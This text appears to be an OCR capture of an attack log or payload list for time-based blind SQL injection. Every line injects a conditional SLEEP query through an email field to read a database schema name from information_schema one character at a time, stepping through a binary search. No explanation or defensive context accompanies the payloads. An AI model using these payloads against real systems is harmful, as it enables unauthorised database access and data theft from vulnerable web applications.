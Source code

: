 {email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,6,1)) FROM information_schema.SCHEMATA  LIMIT 2,1 )>116,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,6,1)) FROM information_schema.SCHEMATA  LIMIT 2,1 )=114,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,7,1)) FROM information_schema.SCHEMATA  LIMIT 2,1 )=64,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,7,1)) FROM information_schema.SCHEMATA  LIMIT 2,1 )>64,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,7,1)) FROM information_schema.SCHEMATA  LIMIT 2,1 )=96,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,7,1)) FROM information_schema.SCHEMATA  LIMIT 2,1 )>96,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,7,1)) FROM information_schema.SCHEMATA  LIMIT 2,1 )=112,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,7,1)) FROM information_schema.SCHEMATA  LIMIT 2,1 )>112,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,7,1)) FROM information_schema.SCHEMATA  LIMIT 2,1 )=104,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,7,1)) FROM information_schema.SCHEMATA  LIMIT 2,1 )>104,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,7,1)) FROM information_schema.SCHEMATA  LIMIT 2,1 )=108,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,7,1)) FROM information_schema.SCHEMATA  LIMIT 2,1 )>108,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,7,1)) FROM information_schema.SCHEMATA  LIMIT 2,1 )=110,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,7,1)) FROM information_schema.SCHEMATA  LIMIT 2,1 )>110,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,7,1)) FROM information_schema.SCHEMATA  LIMIT 2,1 )=109,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,8,1)) FROM information_schema.SCHEMATA  LIMIT 2,1 )=64,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,8,1)) FROM information_schema.SCHEMATA  LIMIT 2,1 )>64,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,8,1)) FROM information_schema.SCHEMATA  LIMIT 2,1 )=96,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,8,1)) FROM information_schema.SCHEMATA  LIMIT 2,1 )>96,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,8,1)) FROM information_schema.SCHEMATA  LIMIT 2,1 )=112,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,8,1)) FROM information_schema.SCHEMATA  LIMIT 2,1 )>112,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,8,1)) FROM information_schema.SCHEMATA  LIMIT 2,1 )=104,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,8,1)) FROM information_schema.SCHEMATA  LIMIT 2,1 )>104,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,8,1)) FROM information_schema.SCHEMATA  LIMIT 2,1 )=100,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,8,1)) FROM information_schema.SCHEMATA  LIMIT 2,1 )>100,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,8,1)) FROM information_schema.SCHEMATA  LIMIT 2,1 )=98,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,8,1)) FROM information_schema.SCHEMATA  LIMIT 2,1 )>98,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,8,1)) FROM information_schema.SCHEMATA  LIMIT 2,1 )=97,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,9,1)) FROM information_schema.SCHEMATA  LIMIT 2,1 )=64,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,9,1)) FROM information_schema.SCHEMATA  LIMIT 2,1 )>64,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,9,1)) FROM information_schema.SCHEMATA  LIMIT 2,1 )=96,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,9,1)) FROM information_schema.SCHEMATA  LIMIT 2,1 )>96,SLEEP(0.122010510204),SLEEP(0)) -- -}